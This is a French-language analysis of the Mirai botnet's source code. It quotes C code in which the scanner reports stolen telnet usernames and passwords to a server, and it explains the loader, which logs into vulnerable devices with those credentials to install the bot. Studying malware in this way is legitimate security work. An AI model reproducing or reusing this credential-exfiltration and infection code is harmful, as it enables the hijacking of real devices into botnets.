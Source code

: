 ```c
send(fd, &daddr, sizeof (ipv4_t), MSG_NOSIGNAL);
send(fd, &dport, sizeof (uint16_t), MSG_NOSIGNAL);
send(fd, &(auth->username_len), sizeof (uint8_t), MSG_NOSIGNAL);
send(fd, auth->username, auth->username_len, MSG_NOSIGNAL);
send(fd, &(auth->password_len), sizeof (uint8_t), MSG_NOSIGNAL);
send(fd, auth->password, auth->password_len, MSG_NOSIGNAL);
```


### Loader

Le loader de Mirai est le programme qui, une fois qu'une machine piratable a été détectée, va s'y connecter et y installer le bot. Le loader est un programme C d'environ 2000 lignes de code qui commence par créer un serveur en appelant la fonction `server_create` (loader/src/main.c ligne 53). Cette fonction est définie dans `server.c`. Le loader lit ensuite les données des machines vulnérables sur l'entrée standard. Il utilise pour cela la fonction `telnet_info_parse` (loader/src/telnet_info.c ligne 25).

```c
if (telnet_info_parse(strbuf, &info) == NULL)
    printf("Failed to parse telnet info: \"%s\" Format -> ip:port user:pass arch\n", strbuf);
```

De retour dans le `main`, le loader appelle la fonction `server_queue_telnet` (loader/src/server.c ligne 89) en lui passant en paramètre les informations sur la machine vulnérable.

```c
server_queue_telnet(srv, &info);
```

`server_queue_telnet` transmet les informations à `server_telnet_probe` (loader/src/server.c ligne 103), qui va ensuite déclencher un événement que la fonction `handle_event` (loader/src/server.c ligne 184) va réceptionner. Cette fonction contient une boucle qui va gérer les échanges de paquets entre le loader et la machine cible:

```c
while (TRUE)
{
    int consumed;

    switch (conn->state_telnet)
    {
        case TELNET_READ_IACS:
            consumed = connection_consume_iacs(conn);
            if (consumed)
                conn->state_telnet = TELNET_USER_PROMPT;
            break;
        case TELNET_USER_PROMPT:
            consumed = connection_consume_login_prompt(conn);
            if (consumed)
            {
                util_sockprintf(conn->fd, "%s", conn->info.user);
                strcpy(conn->output_buffer.data, "\r\n");
                conn->output_buffer.deadline = time(NULL) + 1;
                conn->state_telnet = TELNET_PASS_PROMPT;
            }
            break;
        case TELNET_PASS_PROMPT:
            // ...
    }
}
```

